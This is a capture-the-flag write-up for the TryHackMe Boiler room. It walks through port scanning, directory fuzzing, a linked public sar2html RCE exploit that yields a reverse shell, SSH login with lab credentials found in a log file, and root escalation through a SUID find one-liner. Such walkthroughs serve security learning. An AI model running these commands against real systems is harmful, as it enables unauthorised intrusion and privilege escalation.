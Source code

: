 # 🔓 TryHackMe - Boiler CTF Write-up

## 📌 Room Info
- **Name:** Boiler CTF  
- **Difficulty:** Easy  
- **Date Completed:** 10.09.2025  
- **Target IP:** xxx.xxx.xxx.xxx  

---

## 🔍 Enumeration

### Nmap Scan
First, I performed a full port scan:

```bash
sudo nmap -sV -sC -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- 21/tcp → FTP (nothing useful)  
- 80/tcp → HTTP  
- 10000/tcp → MiniServ v1.930  
- 55007/tcp → SSH  

---

## 🌐 Web Enumeration
Checking port 80, I found a website. Using **ffuf**, I discovered multiple directories:

```bash
ffuf -u http://xxx.xxx.xxx.xxx/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

Interesting directories:
- `/joomal` (Joomla site)  
- `/joomal/manual`  
- `/joomal/administrator`  
- `/joomal/_file`  
- `/joomal/_test` → running **sar2html v3.2.1**  

On port **10000**, I found **MiniServ v1.930**, but no working exploit was available.

---

## 💥 Exploitation
`sar2html v3.2.1` is vulnerable to **RCE**.  
I used this public exploit: [sar2HTML_exploit](https://github.com/Jsmoreira02/sar2HTML_exploit)

Result: I obtained a reverse shell as **www-data**.

During enumeration, I found a file `log.txt` both on the website and inside the shell.  
It contained valid SSH credentials:

```
User: basterd
Password: superduperp@$$
```

---

## 🚪 SSH Access
Logged in via SSH:

```bash
ssh basterd@xxx.xxx.xxx.xxx -p 55007
```

---

## 🔝 Privilege Escalation
I searched for SUID binaries:

```bash
find / -user root -perm -4000 -type f 2>/dev/null
```

Exploitable binary: **find**

I escalated privileges using:

```bash
find . -exec /bin/bash -p \; -quit
```

Result: **root shell obtained** ✅

---

## 🎯 Root Flag
```bash
cat /root/root.txt
```

Flag successfully captured 🎉

---

## 📝 Conclusion
- Entry point: **sar2html v3.2.1 RCE**  
- Credential discovery via `log.txt` → SSH access  
- Privilege escalation via SUID `find` binary  
- Root flag captured  

**Boiler CTF pwned!** 🚀

---

